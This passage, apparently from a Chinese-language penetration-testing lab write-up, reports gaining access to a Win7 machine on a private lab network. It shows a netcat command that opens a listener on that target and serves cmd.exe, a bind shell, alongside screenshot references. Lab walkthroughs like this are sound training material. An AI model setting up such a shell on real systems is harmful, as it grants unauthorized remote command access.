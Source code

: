 

成功获得Win7-3：192.168.77.129权限

![image-20211015143850933](/assets/image-20211015143850933.png)





也可以用nc测试目标Win7-3:192.168.77.129：

在Win7-3:192.168.77.129开启监听端口,kali中的nc位置:/usr/share/windows-binaries/nc.exe

```
nc.exe -Ldp 443 -e cmd.exe
```

![image-20211015145444620](/assets/image-20211015145444620.png)
